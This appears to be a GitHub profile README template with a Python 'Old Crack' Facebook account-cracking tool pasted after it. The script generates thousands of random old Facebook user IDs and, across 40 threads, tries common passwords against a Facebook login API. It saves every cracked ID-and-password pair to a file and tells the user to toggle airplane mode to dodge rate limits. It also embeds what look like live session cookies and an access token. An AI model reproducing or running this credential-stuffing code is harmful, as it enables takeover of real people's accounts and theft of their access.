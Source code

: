 - 👋 Hi I’m @Strange6hbf
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
Strange6hbf/Strange6hbf is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#Sc By Ghost
#Github: https://github.com/Ghost3987
#Tool Type : Old Crack 
#----------------------------[IMPORT/MODULE]-----------------------------------#
import requests,bs4,json,os,sys,uuid,random,datetime,time,re
import urllib3,rich,base64
os.system('xdg-open https://www.facebook.com/profile.php?id=61558895140975')
time.sleep(5)
print('\n \033[1;92m[✓]\r\r\033[1;92m WELCOME. TO ZaNiab HACKER TOOLZ....!')
from rich.markdown import Markdown as mark
from rich.columns import Columns as col
from rich import pretty
from rich.text import Text as tekz
from time import localtime as lt
import os,time,random,json,sys,datetime
try:
    import requests
except:
    os.system("pip3 install requests")
    import requests 
from concurrent.futures import ThreadPoolExecutor as ThreadPool
#-----------------------------[LINE]-----------------------------------#
def lin():
	print("\033[1;93m━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━\033[1;32m")

#----------------------------[COLOR/CODE]-----------------------------------#
A = '\x1b[1;97m';R = '\x1b[38;5;196m';Y = '\033[1;32m';G = '\x1b[38;5;46m';B = '\x1b[38;5;8m';G1 = '\x1b[38;5;48m';G2 = '\x1b[38;5;47m';G3 = '\x1b[38;5;48m';G4 = '\x1b[38;5;49m';G5 = '\x1b[38;5;50m';X = '\33[1;34m';X1 = '\x1b[38;5;14m';X2 = '\x1b[38;5;123m';X3 = '\x1b[38;5;122m';X4 = '\x1b[38;5;86m';X5 = '\x1b[38;5;121m';S = '\x1b[1;96m';M = '\x1b[38;5;205m'
#----------------------------[USER/AGENT]-----------------------------------#
def windows():
    aV=str(random.choice(range(10,20)))
    A=f"Mozilla/5.0 (Windows; U; Windows NT {str(random.choice(range(5,7)))}.1; en-US) AppleWebKit/534.{aV} (KHTML, like Gecko) Chrome/{str(random.choice(range(8,12)))}.0.{str(random.choice(range(552,661)))}.0 Safari/534.{aV}"
    bV=str(random.choice(range(1,36)))
    bx=str(random.choice(range(34,38)))
    bz=f"5{bx}.{bV}"
    B=f"Mozilla/5.0 (Windows NT {str(random.choice(range(5,7)))}.{str(random.choice(['2','1']))}) AppleWebKit/{bz} (KHTML, like Gecko) Chrome/{str(random.choice(range(12,42)))}.0.{str(random.choice(range(742,2200)))}.{str(random.choice(range(1,120)))} Safari/{bz}"
    cV=str(random.choice(range(1,36)))
    cx=str(random.choice(range(34,38)))
    cz=f"5{cx}.{cV}"
    C=f"Mozilla/5.0 (Windows NT 6.{str(random.choice(['2','1']))}; WOW64) AppleWebKit/{cz} (KHTML, like Gecko) Chrome/{str(random.choice(range(12,42)))}.0.{str(random.choice(range(742,2200)))}.{str(random.choice(range(1,120)))} Safari/{cz}"
    D=f"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.{str(random.choice(range(1,7120)))}.0 Safari/537.36"
    return random.choice([A,B,C,D])
#----------------------------[LOGO]-----------------------------------#
logo = (f"""            
 \033[1;93m                            
 ______ ___  ___ _   _  ___  ____  
(___  // _ \(   ) \ | |/ _ \|  _ \ 
   / /| |_| || ||  \| | |_| | |_) )
  / / |  _  || ||     |  _  |  _ ( 
 \033[1;94m / /__| | | || || |\  | | | | |_) )
/_____)_| |_(___)_| \_|_| |_|____/ 
                                   
                                   

\033[1;32m################################################
\033[1;32m[\033[1;32m≈\033[1;32m]\033[1;31m DEVELOPER   :  Malik Farhan
\033[1;32m[\033[1;32m≈\033[1;32m]\033[1;32m FACEBOOK    :  CLONER
\033[1;32m[\033[1;32m≈\033[1;32m]\033[1;33m STATUS      :  FREE FOR ALL USER
\033[1;32m[\033[1;32m≈\033[1;32m]\033[1;34m GITHUB      :  MAlIK X ANNU
\033[1;32m[\033[1;32m≈\033[1;32m]\033[1;35m VERSION     :  0.3
\033[1;32m[\033[1;32m≈\033[1;32m]\033[1;36m TOOL        :  \033[1;32mOld Crack\033[1;32m
\033[1;93m━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
\033[1;32m[\033[1;32m≈\033[1;32m]\033[1;32m FB GROUP    :  \033[1;91m\033[1;41m\033[1;32mTermux Free Command World 2024\033[;0m\033[1;91m\033[1;92m\033[38;5;46m
\033[1;93m━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━\033[1;32m""")
#----------------------------[MAIN/DEF]-----------------------------------#
def main():
    user=[]
    os.system("clear")
    print(logo)
    print(f'\033[1;34m[\033[1;34m=\033[1;34m] \033[1;34m MARI JAN EDR LIKH TUJY KTNI ID CLONE KRNI')
    print(f'\033[1;32m[\033[1;32m=\033[1;32m] \033[1;32mEXAMPLE    \033[1;31m : \033[1;31m5000/10000/99999')
    lin()
    limit=input(f"\033[1;32m[\033[1;32m?\033[1;32m]\033[1;32m INPUT \033[1;32m\033[1;32m: ")
    lin()
    os.system('clear')
    print(logo)
    print(f'\033[1;32m[\033[1;32m1\033[1;32m] \033[1;32m2006-2010-2014 ')
    print(f'\033[1;32m[\033[1;32m1\033[1;32m] \033[1;32mEDR SIRF 1 LIKH')
    lin()
    ask=input(f"\033[1;32m[\033[1;32m?\033[1;32m] INPUT \033[1;32m:\033[1;32m ")
    lin()
    if ask in["1"]:
        newrin="10000"
        for i in range(int(limit)):
            data=str(random.choice(range(1000000000,1999999999)))
            user.append(data)
    with ThreadPool(max_workers=40) as Tx:
        os.system('clear')
        print(logo)
        print(f'\x1b[38;5;196m[\x1b[38;5;46m=\x1b[38;5;196m]\x1b[38;5;46m TOTAL ID : {limit} \x1b[38;5;196m')
        print(f'\x1b[38;5;196m[\x1b[38;5;46m+\x1b[38;5;196m]\x1b[38;5;46m TURN \x1b[38;5;196m[\x1b[38;5;46mON\x1b[38;5;196m/\x1b[38;5;46mOFF\x1b[38;5;196m]\x1b[38;5;46m AIRPLANE MODE EVERY 5  MIN')
        lin()
        for chin in user:
            uid=newrin+chin
            Tx.submit(login,uid)    
loop=0
oks=[]
def login(uid):
    global oks,loop
    Session=requests.session()
    try:
        sys.stdout.write(f'\r\x1b[38;5;196m[\x1b[38;5;48mRUNNING\x1b[38;5;196m]\x1b[1;97m-\x1b[38;5;196m[\033[1;32m{loop}\x1b[38;5;196m]\x1b[1;97m-\x1b[38;5;196m[\x1b[38;5;46mOK•{len(oks)}\x1b[38;5;196m]')
        sys.stdout.flush()
        for pw in ["123456","1234567","12345678","123456789","123123","786786"]:
            headers = {
    'authority': 'mbasic.facebook.com',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'accept-language': 'en-US,en;q=0.9',
    'cache-control': 'max-age=0',
     'cookie': 'vpd=v1%3B676x360x2;datr=5uDeZu_QFW64wlmxBeoB8Jh5;sb=9ODeZnjbNAN92vquu3IgymyE;c_user=100089758920447;xs=27%3Aczfrmeu8z7EF5g%3A2%3A1725882695%3A-1%3A6137;locale=en_GB;fbl_st=101320847%3BT%3A28764711;wl_cbv=v2%3Bclient_version%3A2615%3Btimestamp%3A1725882699;oo=v1%7C3%3A1725883677;',
    'dpr': '2',
    'save-data': 'on',
    'sec-ch-prefers-color-scheme': 'light',
    'sec-ch-ua': '"Not)A;Brand";v="24", "Chromium";v="116"',
    'sec-ch-ua-full-version-list': '"Not)A;Brand";v="24.0.0.0", "Chromium";v="116.0.5845.240"',
    'sec-ch-ua-mobile': '?1',
    'sec-ch-ua-model': '"Infinix X682C"',
    'sec-ch-ua-platform': '"Android"',
    'sec-ch-ua-platform-version': '"10.0.0"',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'none',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
    'user-agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Mobile Safari/537.36',
    'viewport-width': '980',
}
            rp=Session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20¤tly_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers).json()
            if "session_key" in rp:
                print(f"\r\r\033[1;32m[\033[1;32mMalikFarhan \033[1;32m]\033[1;32m {uid} {A}•{G} {pw}")
                open("/sdcard/GHOST-OLD-OK","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break 
            elif "www.facebook.com" in rp["error_msg"]:
                print(f"\r\r\033[1;32m[\033[1;32mMalikFarhan\033[1;32m]\033[1;32m {uid} {A}•{G} {pw}")
                open("/sdcard/GHOST-OLD-OK.txt","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break
            else:continue
        loop+=1
    except:pass
main()
#----------------------------[CODE/END]-----------------------------------#
